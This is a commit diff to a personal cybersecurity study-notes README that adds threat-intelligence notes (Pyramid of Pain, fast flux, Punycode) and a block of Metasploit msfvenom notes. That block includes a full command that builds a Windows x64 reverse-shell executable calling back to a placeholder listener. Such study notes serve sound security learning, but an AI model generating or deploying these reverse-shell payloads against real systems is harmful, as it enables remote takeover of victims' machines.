

Before and after one commit to smmehrab/cybersecurity, a Markdown page: README.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
msfvenom done

```diff
--- a/README.md
+++ b/README.md
@@ -65,12 +65,23 @@
   * [brim](https://www.brimdata.io/)
 * [Pyramid of Pain
   ](https://www.attackiq.com/glossary/pyramid-of-pain/)Demonstrates that some indicators of a compromise are more troubling to adversaries than others.
+  * TTP
+  * Tools
+  * Network Artifacts
+  * Host Artifacts
+  * Domain Names
+  * IP Address
+  * Hash Values
 * Blogs
   * [https://thedfirreport.com/](https://thedfirreport.com/)
   * [https://www.trellix.com/en-us/about/newsroom/stories/research.html](https://www.trellix.com/en-us/about/newsroom/stories/research.html)
 * Hash Lookups
   * [virustotal](https://www.virustotal.com/gui/home/upload)
   * [metadefender-opswat](https://metadefender.opswat.com/)
+* [Fast Flux
+  ](https://en.wikipedia.org/wiki/Fast_flux)Compromised hosts acting as proxies. Attacker has control over DNS server. IP address for the same domain keep changing (using IP addressses of the compromised hosts).
+* [app.any.run](https://app.any.run/)
+* [Punnycode](https://en.wikipedia.org/wiki/Punycode)
 *
 
 #### Web Hacking
@@ -272,6 +283,17 @@
     * mysql_hashdump
   * multi/handler
   * msfvenom
+    * `msfvenom -p PAYLOAD OPTIONS`
+    * Payload Name
+      `OS/arch/payload`
+      `linux/x86/shell_reverse_tcp`
+    * Windows x64 Reverse Shell in an exe format
+      `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=listen-IP LPORT=listen-port`
+    * Payloads
+      * Staged Payloads (`/`)
+      * Stageless Payloads (`_`)
+    * `msfvenom --list payloads`
+    * `msfvenom --list payloads | grep "some_payload"`
   * portscan
   * SMB
     * smb_enumshares
```
